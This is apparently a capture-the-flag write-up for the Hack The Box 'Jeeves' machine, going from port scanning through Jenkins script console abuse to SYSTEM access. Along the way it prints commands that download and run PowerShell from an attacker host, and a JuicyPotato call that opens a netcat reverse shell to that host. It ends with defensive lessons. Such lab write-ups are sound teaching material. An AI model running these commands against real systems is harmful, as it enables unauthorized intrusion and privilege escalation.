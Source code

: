# Jeeves

## Reconnaissance <a href="#491d" id="491d"></a>

First we want to run a initial nmap scan to see what ports are open and what services are on those ports.

```hcl
nmap -sC -sV -oA nmap/init 10.129.174.184
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-oA**: output all formats to _nmap/initial_

We get back the following information:

{% code title="init.nmap" %}
```hcl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 20:19 EDT
Nmap scan report for 10.129.174.184
Host is up (0.034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-24T05:19:57
|_  start_date: 2022-03-24T05:08:21
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.19 secondshcl
```
{% endcode %}

## Enumeration

### Passive Enumeration

#### IIS Directory Enumeration

```bash
gobuster dir -u http://10.129.174.184 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

#### Jetty Directory Enumeration

```
gobuster dir -u http://10.129.174.184:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

### Active Enumeration

#### Exploring IIS

Looking at the http site we are presented with a search bar

![](<../../../.gitbook/assets/image (15).png>)

Searching takes you to error.html which turns out to just be an image

![error.html](<../../../.gitbook/assets/image (17).png>)

Source code for site, the action results in error.html

```html
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

#### Exploring Jetty

Quickly checking gobuster for jetty shows that we have a directory to check out

![/askjeeves](<../../../.gitbook/assets/image (16).png>)

Going there we see Jenkins!

![Jenkins](<../../../.gitbook/assets/image (24).png>)

Turns out we have command execution without needing to be logged in which works in our favor

![](<../../../.gitbook/assets/image (7).png>)

## Initial Access

Using Nishang Invoke-PowerShellTcp.ps1 script we can create a reverse shell and get access to the box

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

First we want to copy the example to the bottom of the script so that it is run when copied to the machine we are attacking

![](<../../../.gitbook/assets/image (10).png>)

![](<../../../.gitbook/assets/image (6).png>)

Next we want to get a web server running and a netcat listener to catch the reverse shell. In this se I am using [updog](https://github.com/sc0tfree/updog) for my simple web server.

![](<../../../.gitbook/assets/image (12).png>)

Using the script console again I run this command to download and execute the invoke powershell tcp reverse shell script

![](<../../../.gitbook/assets/image (3).png>)

And we get a shell back!

![](<../../../.gitbook/assets/image (14).png>)

This allows us to get user.txt!

## Privilege Escalation

### Juicy Potato

Next we want to run PowerUp.ps1 however we want to use the dev branch as it has extra checks

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/dev" %}

![](<../../../.gitbook/assets/image (13).png>)

Then we want to run these commands in our reverse shell

```powershell
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.92/PowerUp.ps1')
Invoke-AllChecks # This runs the powershell function to check everything
```

![](<../../../.gitbook/assets/image (2).png>)

Right away we see SeImpersonatePrivilege which means this box is vulnerable to Juicy Potato!

{% embed url="https://github.com/ohpe/juicy-potato" %}

We first need to download JuicyPotato.exe to the box which I am hosting from my kali box

![](<../../../.gitbook/assets/image (22).png>)

We need to copy kali's nc.exe to the windows box

```powershell
# nc.exe is located /usr/share/windows-resources/binaries/nc.exe on kali
Invoke-WebRequest "http://10.10.14.92/nc.exe" -OutFile "nc.exe"
```

![](<../../../.gitbook/assets/image (8).png>)

Next we want to run JuicyPotato!

This is the input I used:

* **-t: \***
* **-p:** c:\windows\system32\cmd.exe
* **-a:** "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001"
* **-l:** 9001

```powershell
cmd /c jp.exe -l 9001 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001" -t *
```

![Got a shell](<../../../.gitbook/assets/image (23).png>)

We got nt authority\system!&#x20;

When we try and take a look at the administrators desktop we see hm.txt with an interesting message

![](<../../../.gitbook/assets/image (5).png>)

Then I tried this

![Alternate Data Streams](<../../../.gitbook/assets/image (9).png>)

Alternate Data Streams, find more about them here

{% embed url="https://owasp.org/www-community/attacks/Windows_alternate_data_stream" %}

<details>

<summary>We can direct this into more and get the flag</summary>

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt
more < hm.txt:root.txt
afbc5bd4b615a606 # Only first 16 bytes of hash shown
```

</details>

## Lessons Learned

* Restrict who can access the Jenkins management as this opens up unauthorized access
* In some instances a file using alternate data streams could be an indicator of compromise
* Be careful of which service users have SeImpersonatePrivilege as this could allow an attacker to easily escelate their privileges&#x20;

